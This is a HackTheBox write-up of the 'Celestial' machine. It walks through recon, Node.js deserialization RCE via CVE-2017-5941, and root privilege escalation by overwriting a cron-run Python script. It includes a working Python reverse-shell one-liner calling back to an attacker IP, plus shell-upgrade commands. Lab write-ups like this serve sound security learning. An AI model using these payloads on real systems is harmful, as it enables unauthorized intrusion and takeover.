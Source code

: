 ```yaml
---
title: "Celestial - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Celestial
![](https://kar0nx.github.io/assets/images/writeup/9285640b526bf29343d8ca1a4ec778a2.png)
## Reconnaissance

IP: 10.10.10.85
## NMAP

```
nmap -T4 -p- -A 10.10.10.85
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-19 19:19 UTC
Nmap scan report for 10.10.10.85
Host is up (0.026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4
Network Distance: 2 hops

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   25.34 ms 10.10.14.1
2   25.42 ms 10.10.10.85

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.34 seconds
```

Only port 3000 open with http service

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919162510.png)

Ok, we see that this isn't 404 site we have status code is 200, tried directory busting without results, also big list so let's check it burp

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919162714.png)

what we see in burp x-powered-by express is interesting also cookie looks suspicious 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919162918.png)

correct! we have encoded account in base64
Now I stuck, never deal with sth like that in 0xdf writeup I found interesting post:
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## Gaining Access

So writing this we deal with CVE-2017-5941 deserialization bug for RCE
We can create payload via nodejsshell.py
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

```
python2 es.py 10.10.14.13 443
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919163730.png)

You can also watch this YT 4min video 
https://www.youtube.com/watch?v=GFacPoWOcw0
If you don't have nodejs module node-serialize I will give you quick installation 

```
npm init -y
npm install node-serialize --save
```

and then run adding payload before

```
nodejs exploit.js
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919171023.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919171515.png)

before encoding to base64 remember to add () at the very end 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919171616.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919171743.png)

now go to burp, set listener, paste payload and run

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919171802.png)

We got reverse shell as sun user, upgrade to TTY shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now take user.txt

## Privilege Escalation

Running linpeas we got some good outputs

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919172135.png)

Pkexec

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919172540.png)

New files modified in last 5min, need to check it with pspy

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919172707.png)

Ok mamy vectors we can get root access via pwnkit (I think we can use more kernel exploits, box was created march 2018)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919172921.png)

but this is old machine and it won't be the proper way to pwn it,
but before moving on I wanted to try race condition priv esc cve-2016-8655 but didn't work

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919173754.png)

Ok, let's back and gain root access proper way, as I spot in linpeas we need to run pspy to check what runs cron and generating files. get pspy32 on machine and run

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919174555.png)

Cron is running every 5min
/home/sun/Documents/script.py
Ok, file runs with root privileges, let's check content and permission to this script 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919174952.png)

### Hijacking Cron

We see that we can overwrite this file
go to https://www.revshells.com/ and create python rev shell

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

now mv or rm existing script.py and download your reverse shell 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919180548.png)

Wait max to 5min and we got a root shell.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919180654.png)